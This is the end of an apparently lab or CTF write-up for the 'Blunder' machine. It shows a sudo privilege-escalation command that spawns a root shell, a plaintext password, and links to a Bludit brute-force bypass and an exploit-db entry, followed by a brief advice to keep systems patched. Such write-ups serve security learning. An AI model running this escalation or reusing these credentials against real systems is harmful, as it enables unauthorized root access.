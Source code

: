 	sudo -u#-1 /bin/bash
	Password: Password120
	root@blunder:/
	```

	![img](./img/17.png)

***
### 4. Recommendation:

Missing patches are very common in the real-life system, we need to keep the system patches are updated to avoid know attack. 

***
### 5. Reference Link

https://rastating.github.io/bludit-brute-force-mitigation-bypass/
https://raw.githubusercontent.com/bludit/password-recovery-tool/master/recovery.php
https://md5decrypt.net/en/Sha1/
https://www.exploit-db.com/exploits/47502
